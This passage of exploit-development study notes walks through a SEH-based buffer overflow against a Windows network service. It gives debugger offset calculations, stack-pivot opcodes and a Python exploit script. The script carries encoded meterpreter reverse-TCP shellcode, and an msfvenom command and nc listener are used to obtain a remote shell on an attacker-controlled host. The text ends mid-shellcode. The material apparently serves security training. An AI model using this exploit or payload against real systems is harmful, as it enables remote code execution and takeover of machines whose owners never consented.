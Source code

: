 17. Confirm that the shellcode is not truncated with the address above `dd 01aefc70 L65`. Then determine the offset of current stack pointer to this address of ACTUAL SHELLCODE(NOT 01aefc70) with `? 01aefc74 - @esp`.
18. In Kali run `msf-nasm_shell`, then `add esp, 0x830` where 830 is the results of step 17. If this contains null bytes (00), then run `add sp, 0x830` where 830 is the results of step 17, and is the lower 16 bit operation. Next run `jmp esp` and take note of the results of this 2 (jmp esp will always be `FFE4`). Update the code again:

    ```
    ...
    try:
    server = sys.argv[1]
    port = 9121
    size = 1000

    shellcode = b"\x90" * 8
    shellcode+= b"\x43" * (400 - len(shellcode))

    inputBuffer = b"\x41" * 124
    inputBuffer+= pack("<L", (0x06eb9090))  # (NSEH)
    inputBuffer+= pack("<L", (0x1015a2f0))  # (SEH) 0x1015a2f0 - pop eax; pop ebx; ret
    inputBuffer+= b"\x90" * 2
    inputBuffer+= b"\x66\x81\xc4\x30\x08"   # add sp, 0x830
    inputBuffer+= b"\xff\xe4"               # jmp esp
    inputBuffer+= b"\x90" * (size - len(inputBuffer) - len(shellcode))
    inputBuffer+= shellcode
    ...
    ```

19. Use msfvenom `msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.120 LPORT=8888 EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"` with the -b being bad characters to generate shellcode. Ensure that the size is smaller than your shellcode available size (830 in this example). Also add NOP sled, run `sudo nc -lvp 8888` on Kali, send the exploit code and you should receive shell.

```
#!/usr/bin/python
import socket
import sys
from struct import pack

try:
  server = sys.argv[1]
  port = 9121
  size = 1000

  # msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.118.5 LPORT=443 -b "\x00\x02\x0A\x0D" -f python -v shellcode
  shellcode = b"\x90" * 20
  shellcode += b""
  shellcode += b"\xdb\xdd\xb8\xb3\xe9\xc8\x0b\xd9\x74\x24\xf4"
  shellcode += b"\x5b\x29\xc9\xb1\x56\x31\x43\x18\x03\x43\x18"
  shellcode += b"\x83\xeb\x4f\x0b\x3d\xf7\x47\x4e\xbe\x08\x97"
  shellcode += b"\x2f\x36\xed\xa6\x6f\x2c\x65\x98\x5f\x26\x2b"
  shellcode += b"\x14\x2b\x6a\xd8\xaf\x59\xa3\xef\x18\xd7\x95"
  shellcode += b"\xde\x99\x44\xe5\x41\x19\x97\x3a\xa2\x20\x58"
  shellcode += b"\x4f\xa3\x65\x85\xa2\xf1\x3e\xc1\x11\xe6\x4b"
  shellcode += b"\x9f\xa9\x8d\x07\x31\xaa\x72\xdf\x30\x9b\x24"
  shellcode += b"\x54\x6b\x3b\xc6\xb9\x07\x72\xd0\xde\x22\xcc"
  shellcode += b"\x6b\x14\xd8\xcf\xbd\x65\x21\x63\x80\x4a\xd0"
  shellcode += b"\x7d\xc4\x6c\x0b\x08\x3c\x8f\xb6\x0b\xfb\xf2"
  shellcode += b"\x6c\x99\x18\x54\xe6\x39\xc5\x65\x2b\xdf\x8e"
  shellcode += b"\x69\x80\xab\xc9\x6d\x17\x7f\x62\x89\x9c\x7e"
  shellcode += b"\xa5\x18\xe6\xa4\x61\x41\xbc\xc5\x30\x2f\x13"
  shellcode += b"\xf9\x23\x90\xcc\x5f\x2f\x3c\x18\xd2\x72\x28"
  shellcode += b"\xed\xdf\x8c\xa8\x79\x57\xfe\x9a\x26\xc3\x68"
```